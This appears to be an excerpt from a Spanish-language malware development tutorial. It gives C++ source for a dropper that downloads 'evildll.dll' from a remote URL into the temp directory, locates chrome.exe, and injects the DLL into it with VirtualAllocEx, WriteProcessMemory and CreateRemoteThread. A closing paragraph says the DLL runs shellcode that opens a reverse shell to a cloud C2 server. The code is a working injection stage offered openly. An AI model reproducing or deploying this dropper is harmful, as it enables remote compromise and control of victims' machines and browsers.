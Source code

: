 ```cpp
	PVOID pRemoteProcAllocMem;
	PTHREAD_START_ROUTINE pLoadLibrary = NULL;
	//char pathToDLL[] = "C:\\Users\\sciar\\AppData\\Local\\Temp\\evildll.dll";
	//char pathToDLL[] = "C:\\Program Files\\Google\\Chrome\\Application\\108.0.5359.125\\evildll.dll";
	//char pathToDLL[] = "C:\\Users\\sciar\\Desktop\\CrashCourseMaldev\\Part2\\evildll.dll";
	//char pathToDLL[] = "C:\\mspaintDLL.dll";
	char pathToDLL[MAX_PATH] = "";
	char url[] = "http://0.0.0.0:80/evildll.dll";
	char processToInject[] = "chrome.exe";
	int pid = 0;

	GetTempPath(MAX_PATH, pathToDLL);
	strcat(pathToDLL, "\\evildll.dll");

	URLDownloadToFile(NULL, (char *) url, (char *) pathToDLL, 0, NULL);
	DeleteUrlCacheEntry((char *) url);
	
	pid = SearchForProcess(processToInject);
	if ( pid == 0) {
		//printf("Process To Inject NOT FOUND! Exiting.\n");
		return -1;
	}

	//printf("Process To Inject PID: [ %d ]\nInjecting...", pid);

	pLoadLibrary = (PTHREAD_START_ROUTINE) GetProcAddress( GetModuleHandle("Kernel32.dll"), "LoadLibraryA");

	hProcess = OpenProcess(PROCESS_ALL_ACCESS, FALSE, (DWORD)(pid));

	if (hProcess != NULL) {
		pRemoteProcAllocMem = VirtualAllocEx(hProcess, NULL, sizeof(pathToDLL), MEM_COMMIT, PAGE_READWRITE);	
	
		WriteProcessMemory(hProcess, pRemoteProcAllocMem, (LPVOID) pathToDLL, sizeof(pathToDLL), NULL);

		CreateRemoteThread(hProcess, NULL, 0, pLoadLibrary, pRemoteProcAllocMem, 0, NULL);
		//printf("done!\nallocated Memory addr = %p\n", pRemoteProcAllocMem);

		CloseHandle(hProcess); 
	}
	else {
		//printf("OpenProcess failed! Exiting.\n");
		return -2;
	}
}
```

3. DLL Malicioso (evildll.dll): Esta etapa del malware es un DLL que se va a encargar de ejecutar un shellcode payload malicioso en la memoria del proceso inyectado, justo cuando es cargado en la memoria de ejecución, que nos va a dar una reverse shell, conectándose directamente al servidor C2 en la nube. Para conseguir esto realiza el proceso estándar de un shellcode loader.
